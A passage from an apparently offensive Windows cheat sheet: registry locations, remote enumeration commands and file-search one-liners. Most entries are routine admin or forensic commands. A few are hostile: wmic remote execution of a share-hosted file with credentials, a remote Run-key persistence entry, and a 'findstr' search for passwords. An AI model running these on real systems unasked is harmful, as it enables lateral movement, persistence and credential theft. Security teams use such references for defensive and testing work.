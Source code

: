 | Kernel/user services | `HKLM\SYSTEM\CurrentControlSet\Services` |
| Installed software for all users | `HKLM\Software` |
| Installed software for current user | `HKCU\Software` |
| Recent WordPad documents | `HKCU\Software\Microsoft\Windows\CurrentVersion\Applets\Wordpad\Recent File List` |
| Recent typed entries in the Run dialog box | `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` |
| Typed URLs | `HKCU\Software\Microsoft\Internet Explorer\TypedURLs` |
| Last registry key accessed via regedit.exe | `HKCU\Software\Microsoft\Windows\CurrentVersion\Applets\Regedit /v LastKey` |

---

### Windows Remote System Enumeration
| Description | REMOTE SYSTEM ENUMERATION |
|--------------------------------------------------|----------------------------------|
| Display sessions for remote system | `net session \\<IP_ADDRESS>` |
| Display logged in user on remote machine | `wmic /node: <IP_ADDRESS> computersystem get username` |
| Execute file hosted over SMB on remote system with specified credentials | `wmic /node: <IP_ADDRESS> /user:<DOMAIN>\<USERNAME> /password:<PASSWORD> process call create "\\<IP_ADDRESS>\<SHARE_FOLDER>\<FILE_PATH>"` |
| Display process listing every second for remote machine | `wmic /node: <IP_ADDRESS> process list brief /every:1` |
| Query remote registry | `reg query \\<IP_ADDRESS>\<REG_HIVE>\<REG_KEY>/v <REG_VALUE>` |
| Display process listing on remote system | `tasklist /S <IP_ADDRESS> /v` |
| Display system information for remote system | `systeminfo /S <IP_ADDRESS> /U <DOMAIN>\<USERNAME> /P <PASSWORD>` |
| Display shares of remote computer | `net view \<IP_ADDRESS> /all` |
| Connect to remote filesystem with specified user account | `net use * \\<IP_ADDRESS>\<SHARE FOLDER> /user:<DOMAIN>\<USERNAME> <PASSWORD>` |
| Add registry key to remote system | `REG ADD "\\<IP_ADDRESS>\HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "My App" /t REG_SZ /F /D "<FILE_PATH>"` |
| Copy remote folder | `xcopy /s \\<IP_ADDRESS>\<SHARE_FOLDER> <LOCAL_DIR>` |
| Display system uptime - look for creation date of pagefile.sys. This is the last time the system started | `dir \\<IP_ADDRESS>\c$` |
| Display processes (look for AV, logged on users, programs of interest, etc.) | `tasklist /v /s <IP_ADDRESS>` |
| Display system architecture - Presence of "Program Files (x86)" means 64-bit system | `dir \\<IP_ADDRESS>\c$` |

## Windows Data Mining
## FILE INFO & SEARCHING
| Description | Command |
|-------------|---------|
| Search for all PDFs | `dir /a /s /b C:\*.pdf*` |
| Search current and subdirectories for .txt files for case insensitive string "password" | `findstr /SI password *.txt` |
| Display file contents | `type <FILE_PATH>` |
| Display all lines in a file that match case insensitive <STRING> | `find /I "<STRING_TO_SEARCH>" <FILE_PATH>` |
| Display line count for a file | `type <FILE_PATH> | find /c /v ""` |
| Enumerate recently opened files | `dir C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Recent`<br><br>#Then run the following command on the .lnk:<br>`type <FILE_PATH>`<br><br>#Look for full file path in output |
